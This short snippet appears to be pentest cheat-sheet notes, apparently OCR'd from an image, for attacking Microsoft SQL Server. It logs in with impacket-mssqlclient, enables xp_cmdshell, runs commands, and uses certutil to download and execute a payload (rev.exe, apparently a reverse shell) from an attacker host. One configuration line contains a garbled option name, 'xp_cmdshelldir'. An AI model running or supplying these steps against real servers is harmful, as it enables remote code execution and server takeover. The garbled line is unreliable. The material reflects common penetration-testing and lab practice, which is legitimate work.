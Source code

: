 

select name from sys.databases;



# Enabling xp_cmdshell feature
impacket-mssqlclient $USER:$PASS@$IP -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshelldir', 1;
RECONFIGURE;

# Executing Commands via xp_cmdshell
EXECUTE xp_cmdshell 'whoami';
EXECUTE xp_cmdshell 'certutil.exe -urlcache -f http://$IP/rev.exe c:\\windows\\temp\\rev.exe';
EXECUTE xp_cmdshell 'c:\\windows\\temp\\rev.exe';